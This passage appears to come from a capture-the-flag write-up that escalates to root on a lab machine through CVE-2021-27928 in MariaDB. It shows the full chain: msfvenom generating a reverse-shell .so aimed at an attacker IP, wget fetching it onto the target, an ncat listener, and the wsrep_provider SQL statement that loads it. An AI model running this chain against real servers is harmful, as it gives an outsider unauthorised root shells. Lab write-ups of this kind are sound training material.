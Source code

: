 This version is vulnerable to [CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928), this means we can load a library at runtime and get code execution as the user the instance is running at, which is root in this case. As a first stap we need to generate our shared library containing a reverse shell. For this we can use msfvenom.

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.93 LPORT=7575 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```

Next we transfer the payload over to the target using python and wget, we also set up our ncat listener on the port we specified.

```
ipmi-svc@shibboleth:/tmp$ wget 10.10.14.93:8000/CVE-2021-27928.so
--2021-11-13 22:45:02--  http://10.10.14.93:8000/CVE-2021-27928.so
Connecting to 10.10.14.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘CVE-2021-27928.so’

CVE-2021-27928.so                                          100%[========================================================================================================================================>]     476  --.-KB/s    in 0s

2021-11-13 22:45:02 (63.8 MB/s) - ‘CVE-2021-27928.so’ saved [476/476]
```

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we connect to the database again and load our shared library.

```
ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1287
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
```
